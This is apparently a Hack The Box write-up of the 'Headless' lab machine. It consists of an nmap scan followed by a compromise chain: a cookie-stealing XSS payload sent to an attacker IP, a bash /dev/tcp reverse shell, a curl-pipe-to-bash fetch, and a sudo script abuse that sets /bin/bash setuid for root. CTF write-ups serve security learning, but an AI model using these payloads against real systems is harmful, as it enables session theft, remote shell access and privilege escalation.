 # Headless Write-up

<img src="https://labs.hackthebox.com/storage/avatars/26e076db204a74b99390e586d7ebcf8c.png" width="200" height="200">

## Nmap

`nmap -sC -sV headless.htb`

    PORT      STATE    SERVICE    VERSION
    22/tcp    open     ssh        OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
    | ssh-hostkey: 
    |   256 90:02:94:28:3d:ab:22:74:df:0e:a3:b2:0f:2b:c6:17 (ECDSA)
    |_  256 2e:b9:08:24:02:1b:60:94:60:b3:84:a9:9e:1a:60:ca (ED25519)
    1130/tcp  filtered casp
    1524/tcp  filtered ingreslock
    2068/tcp  filtered avocentkvm
    5000/tcp  open     upnp?
    | fingerprint-strings: 
    |   GetRequest: 
    |     HTTP/1.1 200 OK
    |     Server: Werkzeug/2.2.2 Python/3.11.2
    |     Date: Mon, 25 Mar 2024 08:28:56 GMT
    |     Content-Type: text/html; charset=utf-8
    |     Content-Length: 2799
    |     Set-Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs; Path=/
    |     Connection: close
    |     <!DOCTYPE html>
    |     <html lang="en">
    |     <head>
    |     <meta charset="UTF-8">
    |     <meta name="viewport" content="width=device-width, initial-scale=1.0">
    |     <title>Under Construction</title>
    |     <style>
    |     body {
    |     font-family: 'Arial', sans-serif;
    |     background-color: #f7f7f7;
    |     margin: 0;
    |     padding: 0;
    |     display: flex;
    |     justify-content: center;
    |     align-items: center;
    |     height: 100vh;
    |     .container {
    |     text-align: center;
    |     background-color: #fff;
    |     border-radius: 10px;
    |     box-shadow: 0px 0px 20px rgba(0, 0, 0, 0.2);
    |   RTSPRequest: 
    |     <!DOCTYPE HTML>
    |     <html lang="en">
    |     <head>
    |     <meta charset="utf-8">
    |     <title>Error response</title>
    |     </head>
    |     <body>
    |     <h1>Error response</h1>
    |     <p>Error code: 400</p>
    |     <p>Message: Bad request version ('RTSP/1.0').</p>
    |     <p>Error code explanation: 400 - Bad request syntax or unsupported method.</p>
    |     </body>
    |_    </html>
    19842/tcp filtered unknown
    65129/tcp filtered unknown
    1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
    SF-Port5000-TCP:V=7.94SVN%I=7%D=3/25%Time=660135C7%P=x86_64-pc-linux-gnu%r
    SF:(GetRequest,BE1,"HTTP/1\.1\x20200\x20OK\r\nServer:\x20Werkzeug/2\.2\.2\
    SF:x20Python/3\.11\.2\r\nDate:\x20Mon,\x2025\x20Mar\x202024\x2008:28:56\x2
    SF:0GMT\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:
    SF:\x202799\r\nSet-Cookie:\x20is_admin=InVzZXIi\.uAlmXlTvm8vyihjNaPDWnvB_Z
    SF:fs;\x20Path=/\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\
    SF:x20lang=\"en\">\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"UTF-8\">\n\
    SF:x20\x20\x20\x20<meta\x20name=\"viewport\"\x20content=\"width=device-wid
    SF:th,\x20initial-scale=1\.0\">\n\x20\x20\x20\x20<title>Under\x20Construct
    SF:ion</title>\n\x20\x20\x20\x20<style>\n\x20\x20\x20\x20\x20\x20\x20\x20b
    SF:ody\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20font-family:\
    SF:x20'Arial',\x20sans-serif;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
    SF:0\x20background-color:\x20#f7f7f7;\n\x20\x20\x20\x20\x20\x20\x20\x20\x2
    SF:0\x20\x20\x20margin:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
    SF:0\x20padding:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20di
    SF:splay:\x20flex;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20justif
    SF:y-content:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
    SF:align-items:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
    SF:20height:\x20100vh;\n\x20\x20\x20\x20\x20\x20\x20\x20}\n\n\x20\x20\x20\
    SF:x20\x20\x20\x20\x20\.container\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x
    SF:20\x20\x20\x20text-align:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\
    SF:x20\x20\x20\x20background-color:\x20#fff;\n\x20\x20\x20\x20\x20\x20\x20
    SF:\x20\x20\x20\x20\x20border-radius:\x2010px;\n\x20\x20\x20\x20\x20\x20\x
    SF:20\x20\x20\x20\x20\x20box-shadow:\x200px\x200px\x2020px\x20rgba\(0,\x20
    SF:0,\x200,\x200\.2\);\n\x20\x20\x20\x20\x20")%r(RTSPRequest,16C,"<!DOCTYP
    SF:E\x20HTML>\n<html\x20lang=\"en\">\n\x20\x20\x20\x20<head>\n\x20\x20\x20
    SF:\x20\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x20\x20\x
    SF:20\x20\x20<title>Error\x20response</title>\n\x20\x20\x20\x20</head>\n\x
    SF:20\x20\x20\x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>Error\x20resp
    SF:onse</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code:\x20400</p>
    SF:\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Message:\x20Bad\x20request\x20vers
    SF:ion\x20\('RTSP/1\.0'\)\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\
    SF:x20code\x20explanation:\x20400\x20-\x20Bad\x20request\x20syntax\x20or\x
    SF:20unsupported\x20method\.</p>\n\x20\x20\x20\x20</body>\n</html>\n");
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

![image](https://github.com/zer00d4y/writeups/assets/128820441/95bbcb05-a8e7-4a45-b42d-b68849be0c5e)

/support

![image](https://github.com/zer00d4y/writeups/assets/128820441/be651cdc-f8f6-4a41-a3a1-483c2113a2ce)

/dashboard

![image](https://github.com/zer00d4y/writeups/assets/128820441/d96a0e21-7862-4d65-b2f6-1d9e13ce3c98)

![image](https://github.com/zer00d4y/writeups/assets/128820441/65cbc8cd-0826-4b08-9043-cf5c1a187776)

![image](https://github.com/zer00d4y/writeups/assets/128820441/12cd84a3-b7ec-47cb-bea8-793b063db8ee)

    python3 -m http.server 80

![image](https://github.com/zer00d4y/writeups/assets/128820441/3bbe5026-5eaa-4c1e-a447-4093f7ed8fa7)

    <img src=x onerror=fetch('http://IP-ADDRESS/'+document.cookie);>

![image](https://github.com/zer00d4y/writeups/assets/128820441/50786230-f4ed-4b7e-b867-d4294a8e6bd1)

![image](https://github.com/zer00d4y/writeups/assets/128820441/2f46367e-f8c0-41e3-aacd-eae73d703a10)


        #!/bin/bash
        /bin/bash -c 'exec bash -i >& /dev/tcp/10.10.14.91/6565 0>&1'

![image](https://github.com/zer00d4y/writeups/assets/128820441/67c884b5-541e-415e-a87c-9c627d7634aa)

start python server

![image](https://github.com/zer00d4y/writeups/assets/128820441/34e786da-1f4b-473f-a6fb-71b73556dc01)

listen port with rlwrap 

![image](https://github.com/zer00d4y/writeups/assets/128820441/c54c6ae0-4dd7-4aa3-bc07-7d1d59d2b7d4)

    curl http://10.10.14.91/shell.sh|bash

![image](https://github.com/zer00d4y/writeups/assets/128820441/5cf2004e-606a-4d55-8906-c9340a3de1d1)

![image](https://github.com/zer00d4y/writeups/assets/128820441/0037011d-77f3-4ec8-9135-d6629d685d19)

    python -c 'import pty;pty.spawn("/bin/bash")'

Ctrl + z

    stty raw -echo;fg

![image](https://github.com/zer00d4y/writeups/assets/128820441/35d48488-e64f-4d87-92b0-3287ec6a66a0)

    export TERM=xterm

get the user flag

![image](https://github.com/zer00d4y/writeups/assets/128820441/b0ecc9e8-a4ed-4fb5-8889-aa502bec0c01)

# Privilege escalation

sudo -l

![image](https://github.com/zer00d4y/writeups/assets/128820441/1e8a4b99-3c88-4cc5-84fc-9729d3dade4e)

cat /usr/bin/syscheck

![image](https://github.com/zer00d4y/writeups/assets/128820441/839c66df-5849-4618-9e6d-b4bf3c4f9d20)

    echo "chmod u+s /bin/bash" > initdb.sh
    chmod +x initdb.sh

![image](https://github.com/zer00d4y/writeups/assets/128820441/c671dc29-33b6-4d6c-a487-baf78ce2d6bc)

    sudo /usr/bin/syscheck
    /bin/bash -p

And get the root flag

![image](https://github.com/zer00d4y/writeups/assets/128820441/85486b7b-9063-42d6-a344-715339749d24)


